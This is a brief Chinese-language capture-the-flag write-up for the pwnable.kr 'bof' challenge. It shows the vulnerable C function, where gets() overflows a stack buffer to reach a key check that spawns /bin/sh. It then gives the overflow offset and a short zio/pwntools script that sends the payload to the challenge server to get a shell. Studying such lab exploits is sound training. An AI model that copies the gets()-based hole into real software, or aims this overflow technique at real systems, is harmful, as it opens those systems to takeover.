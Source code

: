 # bof
## 1.分析逻辑
```c
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
当函数参数为0xcafebabe时，输出flag
## 2.漏洞
容易注意到函数内存在gets，因此可进行栈溢出
## 3.利用
IDA查看缓冲区位置

```c
char s; // [esp+1Ch] [ebp-2Ch]
unsigned int v3; // [esp+3Ch] [ebp-Ch]
v3 = __readgsdword(0x14u);
puts("overflow me : ");
gets(&s);
```

为了覆盖到参数，需要覆盖0x2c+4+4=0x34字节（包括bp和返回地址）
```python
from pwn import *
from zio3 import *
target = ('pwnable.kr',9000)
io = zio('./bof')
io = zio(target,timeout=10000)
#io.read_until("overflow me : ")
payload = b'a' * (0x2c+8)+l32(0xcafebabe)
io.write(payload)
io.interact()
```